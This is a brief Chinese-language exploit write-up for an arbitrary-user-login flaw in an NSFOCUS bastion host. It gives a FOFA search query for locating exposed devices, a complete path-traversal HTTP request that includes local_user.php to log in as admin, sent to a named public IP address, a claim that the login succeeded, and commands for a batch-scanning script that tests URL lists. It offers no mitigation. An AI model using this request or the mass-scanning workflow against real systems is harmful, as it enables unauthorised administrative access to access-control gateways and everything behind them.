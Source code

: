 绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487092994-e4fea1fd-973a-430a-adab-aef472f1901a.png)

### 2.fofa语法

```plain
body="'/needUsbkey.php?username='"
```

### 3.漏洞复现

```plain
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 115.233.211.203
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487297499-d6c71d48-fb16-454c-8f27-e10ad813fcee.png)

登录成功

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487263928-ac3127d3-5d77-4b0b-a348-763ee329e3a6.png)

### 4.py脚本使用

```
python3 文件名 -f url.txt # 批量测试url
python3 文件名 -u http://127.0.0.1 # 单个测试url
```
